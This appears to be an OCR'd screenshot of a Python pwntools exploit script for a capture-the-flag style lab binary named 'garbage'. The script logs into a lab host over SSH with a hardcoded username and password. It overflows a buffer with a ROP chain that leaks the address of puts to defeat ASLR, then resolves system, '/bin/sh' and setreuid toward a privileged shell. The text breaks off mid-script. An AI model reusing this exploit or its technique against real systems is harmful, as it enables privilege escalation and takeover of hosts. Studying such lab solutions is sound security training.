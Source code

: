 ```
    pattern = core.read(stack, 4)
    #info("%r pattern", pattern)
    offset = cyclic_find(pattern)
    #info("OFFSET : %s",offset)
    return offset

if __name__ == "__main__":
    elf = ELF("garbage")
    libc = ELF("./libc.so.6")
    #offset=get_offset(elf)
    offset = 136
    info("OFFSET : %s",offset)  
    puts_plt = elf.symbols["plt.puts"]
    info("PLT@PUTS : %s",hex(puts_plt))
    puts_got = elf.symbols["got.puts"]
    info("PUT@GOTS : %s",hex(puts_got))
    main = elf.symbols["main"]
    info("MAIN : %s",hex(main))
    rop = ROP(elf)
    pop_rdi_gadget = rop.find_gadget(['pop rdi','ret'])
    pop_rdi = pop_rdi_gadget.address
    info("POP RDI : %s",hex(pop_rdi))


    ret_gadget = rop.find_gadget(['ret'])
    ret = ret_gadget.address
    info("RET : %s",hex(ret))


    pop_rsi_gadget = rop.find_gadget(['pop rsi','pop r15','ret'])
    pop_rsi = pop_rsi_gadget.address
    
    info("POP RSI, POP 15 : %s",hex(pop_rsi))

    payload = 'A'*offset
    payload += p64(pop_rdi)
    payload += p64(puts_got)
    payload += p64(puts_plt)
    payload += p64(main)
    #print(payload)
    s = ssh(host='10.10.10.139',user='margo',password='iamgod$08')
    io = s.process('/usr/bin/garbage')
    #io = process(elf.path)
    io.recvuntil(":")
    io.sendline(payload)
    #io.recvuntil(":")
    io.recvline()
    io.recvline()
    #io.recvuntil("denied.\n")
    puts_leak = io.recvline().strip().ljust(8,'\x00')
    info("PUTS LEAK : %s",puts_leak)
    libc_puts = libc.symbols["puts"]
    info("LIBC PUTS : %s",hex(libc_puts))
    libc_system = libc.symbols["system"]
    info("LIBC SYSTEM : %s",hex(libc_system))
    libc_binsh = next(libc.search("/bin/sh"))
    info("LIBC /bin/sh : %s",hex(libc_binsh))
    libc_setreuid = libc.symbols["setreuid"]
    info("LIBC setreuid : %s",hex(libc_setreuid))
    libc_offset = u64(puts_leak) - libc_puts
    info("LIBC OFFSET : %s",hex(libc_offset))

    sys = libc_offset + libc_system
```